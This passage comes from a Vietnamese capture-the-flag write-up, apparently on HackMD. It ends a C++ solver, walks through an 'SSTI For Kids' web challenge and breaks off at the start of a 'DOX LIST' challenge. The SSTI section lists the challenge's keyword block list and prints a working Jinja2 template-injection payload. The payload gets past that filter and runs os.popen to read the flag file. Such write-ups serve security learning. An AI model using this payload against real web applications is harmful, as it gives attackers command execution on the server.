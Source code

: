 ```cpp
    }
  }
    cout << flag;

}    
```

khi chạy thì ta có flag như sau
    
![image](https://hackmd.io/_uploads/By7UoB8U1x.png)

    
## SSTI For Kids

![image](https://hackmd.io/_uploads/B1PU_xPUke.png)
    
Đề bài cho mình một trang web mô phỏng lỗ hổng SSTI như sau
    
![image](https://hackmd.io/_uploads/SyiWnSIUJx.png)

Nhiệm vụ của mình là cat được flag thông qua lỗi này nên mình đọc source xem có gì hot
    
<details><summary>chal</summary></details>
    
Ở đây web đã cấm các keyword là "[", "]", "_", ".", "x", "dict", "config", "mro", "popen", "debug", "cycler", "os", "globals", "flag", "cat" do đó mình không thể SSTI như thông thường. Nhưng mình nhận ra nó không cấm "request" nên mình tìm thử có payload nào liên quan không
    
![image](https://hackmd.io/_uploads/SywAprI8kl.png)

Cái thứ 4 mình có thể tận dụng `http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ ` Và cuối cùng mình có payload như sau
    
`{{request|attr(request|attr(%27args%27)|attr(%27get%27)(%27a%27))|attr(request|attr(%27args%27)|attr(%27get%27)(%27b%27))|attr(request|attr(%27args%27)|attr(%27get%27)(%27c%27))(request|attr(%27args%27)|attr(%27get%27)(%27d%27))|attr(request|attr(%27args%27)|attr(%27get%27)(%27c%27))(request|attr(%27args%27)|attr(%27get%27)(%27e%27))(request|attr(%27args%27)|attr(%27get%27)(%27f%27))|attr(request|attr(%27args%27)|attr(%27get%27)(%27g%27))(request|attr(%27args%27)|attr(%27get%27)(%27h%27))|attr('read')()}}&a=application&b=__globals__&c=__getitem__&d=__builtins__&e=__import__&f=os&g=popen&h=cat flag*.txt`
    
Khi gắn vào thì ta sẽ có được flag
    
![image](https://hackmd.io/_uploads/SJlI0rIIJe.png)

    
## DOX LIST

![image](https://hackmd.io/_uploads/B1QqA_88yl.png)
    
Đề bài cho mình một trang web như sau

![image](https://hackmd.io/_uploads/BJltCOU81x.png)
